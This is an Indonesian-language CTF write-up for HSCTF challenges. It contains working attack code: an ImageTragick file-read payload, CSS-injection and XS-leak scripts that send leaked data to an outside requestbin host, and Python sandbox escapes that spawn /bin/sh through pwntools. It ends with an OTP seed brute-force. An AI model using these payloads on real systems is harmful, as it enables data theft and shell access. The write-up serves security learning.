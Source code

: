 # WEB
## png-wizard-v2
Saat kita melihat di halaman http://web1.hsctf.com:8004/version tenyata versi dari Imagemagick:
```
Version: ImageMagick 6.9.10-23 Q16 x86_64 20190101 https://imagemagick.org
```
Untuk referensi vulnerabilitynya bisa dilihat disini:
https://imagetragick.com/

Kita  bisa mengirimkan malcious code untuk menyuruh image magic membuat 
```python
import requests
#URL = "http://localhost:8005"
URL = "http://web1.hsctf.com:8005"

MALCIOUS_PNG_PAYLOAD = """push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'label:@/app/flag.txt'
pop graphic-context"""
resp = requests.post(URL, files={"file": ("solve.png", MALCIOUS_PNG_PAYLOAD)})
with open("out.png", "wb") as f:
	f.write(resp.content)
```

## markdown-plus-plus
```html
...snip...
<form id="login-form" action="/login" method="POST">
	<input name="username" placeholder="{{ session.username or 'Username'}}" />
	<input type="submit" value="Login" />
</form>
...snip...
```
Dilihat dari `{{ session.username or 'Username'}}` kita dapat mencuri username dari admin.
Saya menggunakan cara yang semi automatis menggunakan script python dibawah ini, untuk membuat request ke `https://requestbin.io/ytti8kyt` jika huruf yang kita cocokkan ada yang benar.
```python
alphabet = 'abcdefghijklmnopqrstuvwxyz_{}'

known_admin = "flag"
malcious = '[c=purple;}\n'
for admin in alphabet:
    admin = known_admin + admin
    malcious += '''input[placeholder^="''' + admin + '''"]{background-image:url("https://requestbin.io/ytti8kyt?''' + admin + '''");}\n'''
malcious +=" test]"

print(malcious)
```

## hsgtf
Pada challenge kali ini kita dapat mengirimkan website apa saja ke admin, ini menyebabkan kita bisa menggunakan teknik cross-site leak.

Yang perlu diperhatikan disini adalah id saat kita memasukkan byte yang benar, dengan id saat kita memasukkan byte yanf salah memiliki id yang berbeda.Jadi disini kita akan menggunakan salah satu teknik di website [ini](https://xsleaks.dev/docs/attacks/id-attribute/) , yaitu dengan memanfaatkan fungsi `focus()` yang akan tidak fokus saat element suatu element itu ada:

Statis web untuk dibagikan ke admin:
```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="utf-8" />
	</head>
	<body>
		<div id="foo" tabindex="0">tab</div>
		<script>
			let url = "http://web1.hsctf.com:8001/guess";
			let curr = "flag{";
			let chars = "abcdefghijklmnopqrstuvwxyz_{}";
			let found = false;

			let iframe = document.createElement("iframe");
			iframe.src = url;
			document.body.appendChild(iframe);
			document.getElementById("foo").focus();
			iframe.onload = solve;

			let sleep = (ms) => new Promise((r) => setTimeout(r, ms));

			document.getElementById("foo").onblur = function () {
				if (!found) {
					found = true;
				}
			};

			async function solve() {
				iframe.onload = undefined;
				while (true) {
					document.getElementById("foo").focus();
					for (let c of chars) {
						found = false;
						iframe.src = url + "?guess=" + curr + c;
						await sleep(100);
						iframe.src = url + "?guess=" + curr + c + "#continue";
						await sleep(400);
						if (found) {
							curr += c;
							break;
						}
					}
					console.log(curr);
					fetch("https://requestbin.io/xmt7d4xm", {
						method: "POST",
						body: curr,
					});
				}
			}
		</script>
	</body>
</html>
```
### Referensi
- https://xsleaks.dev/
- https://github.com/xsleaks/xsleaks/wiki/Browser-Side-Channels
- https://hackmd.io/@aplet123/r1TIzZbYq#HSGTF
# miscellaneous
## paas-v2
Kita bisa membuka file flag di forlder `./` dengan menggunakan function `license()` yang nantinya kita masukkan isi dari file './flag' ke `license()` dengan menggunakan fungsi `setattr()`.
payload ex:
```python
setattr(license,"_Printer__filenames",list(("flag",)))
```

Program python:
```python
from pwn import *

s = remote("paas-v2.hsctf.com", 1337)
s.sendlineafter(b"> ", b'setattr(license,input(),list((input(),)))')
s.sendline(b"_Printer__filenames")
s.sendline(b"flag")
s.sendlineafter(b"> ", b"license()")
print(s.recvuntil(b"> ").decode())
s.interactive()
```
### Another Solution
Dari artikel di bawah kita dapat kesimpulan bahwa juga fungsi `__builtins__` di hapus maka akan muncul lagi ketika eval di execute.
```
If the globals dictionary is present and does not contain a value for the key __builtins__, a reference to the dictionary of the built-in module builtins is inserted under that key before expression is parsed
```
> referensi: https://docs.python.org/3/library/functions.html#eval
```discord
Aplet123 — 06/11/2022
I think python just always has a default value for __builtins__ 
you'll notice if you del globals()["__builtins__"] it comes back
```
Denga skrip di bawah kita dapat mengubah variable `copyright`  dengan fungsi `setattr()` agar valuenya terkait dengan variable `globals()`, setelah itu kita dapat menghapus atribute `__builtins__` dari variable `copyright`, maka setelah pengulangan selanjutnya atribute `__builtins__` akan di insert dengan module `builtins`

program penyelesaian:
```python
from pwn import *

payload1 = '''setattr(copyright,input(),globals()),delattr(copyright,input())'''
payload2 = '''__dict__'''
payload3 = '''__builtins__'''
payload4 = '''breakpoint()'''

payload5 = '''import os;os.system("/bin/sh")'''

c = remote("paas-v2.hsctf.com", 1337)

c.recv(1000);c.recv(1000);

c.sendline(payload1)
c.sendline(payload2)
c.sendline(payload3)
c.sendline(payload4)
c.sendline(payload5)

c.interactive()
```

payload: `setattr(copyright,__dict__,globals()),delattr(copyright,__builtins__)`
# cryptography
## OTP
```python
import random
from Crypto.Util.number import bytes_to_long, long_to_bytes

avgflag = int(10000000000 * 2.5)
tries = 10000000
flag = 444466166004822947723119817789495250410386698442581656332222628158680136313528100177866881816893557
print(avgflag-tries//2)
print(avgflag+tries//2)
for s in range(avgflag-tries//2,avgflag+tries//2):
    print(s, end= '\r')
    random.seed(s)

    l = 328

    k = random.getrandbits(l)
    pt = flag ^ k # super secure encryption
    if long_to_bytes(pt).isascii():
        print(long_to_bytes(pt))
```